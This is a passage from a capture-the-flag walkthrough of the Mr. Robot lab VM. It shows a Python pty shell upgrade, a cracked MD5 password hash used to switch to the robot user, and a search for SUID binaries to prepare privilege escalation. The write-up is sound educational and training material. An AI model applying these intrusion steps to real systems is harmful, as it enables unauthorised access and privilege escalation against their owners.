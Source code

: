 ```shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ 
```

and explore:

```shell
daemon@linux:/$ ls
ls
bin   dev  home        lib    lost+found  mnt  proc  run   srv	tmp  var
boot  etc  initrd.img  lib64  media	  opt  root  sbin  sys	usr  vmlinuz
daemon@linux:/$ cd home 
cd home
daemon@linux:/home$ ls
ls
robot
daemon@linux:/home$ cd robot
cd robot
daemon@linux:/home/robot$ ls
ls
key-2-of-3.txt	password.raw-md5
daemon@linux:/home/robot$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

We can't read `key-2-of-3.txt` yet, but we can access `password.raw-md5` for a hashed version of a password, likely for the `robot` user. We can use [crackstation.net](https://crackstation.net/) to crack it, and, if not, probaby [John the Ripper](https://www.openwall.com/john/).

Luckily, crackstation.net recognizes the hash and gives us the decoded password:

![mr-robot-crackstation](/media/mr-robot-crackstation.png)

We can now switch users (`su`) to `robot` and read `key-2-of-3.txt`. Now that we have gotten the second flag, let's look to escalate our privileges for `root` access and, presumably, the third flag.

As a shortcut to obtaining root access, We can search for system files that have an SUID (Set User ID) bit set. Files with SUID bits allow them to run with the permissions of whomever the owner of the file is. If the owner happens to be `root`, it runs with root permissions.

```shell
robot@linux:/tmp$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```
